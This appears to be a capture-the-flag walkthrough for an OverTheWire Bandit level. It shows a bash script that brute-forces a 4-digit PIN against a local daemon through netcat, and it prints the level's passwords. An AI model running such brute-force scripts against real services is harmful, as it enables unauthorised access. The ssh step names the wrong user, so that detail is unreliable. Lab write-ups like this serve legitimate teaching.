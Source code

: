 # Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

# Solution

It is apparent that we need to create a script and for training purposes it is going to be a bash script. The script Runs over all the possible 4 digit combinations and then returns the correct value when found.
1. Create a bash script file.
```Bash
touch bruteforce.sh
```

2. The bash Script is as follows.
```Bash
#!/bin/bash
rm /tmp/bandit25/output
for i in {0000..9999}
do 
  echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i
done | nc localhost 30002
```
Notice that the piping to the port is done only after all the combinations had finished computing. The basic reason for this is that if netcat is called everytime, this would create multiple procesess that wont shutdown as we dont know the PID of each command. These processes needs resources to stay alive after they have done their purpose, so after a while there are no longer resources to allocate for new commands. So in short, it is more efficient to send all the data all at once instead of sending through the script.

3. Run the script until the password appears.
```Bash
./bruteforce.sh
```
The password should be visible now.

4. Exit the bandit24 shell
```Bash
exit
```

5. ssh into bandit25
```Bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```
Password: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

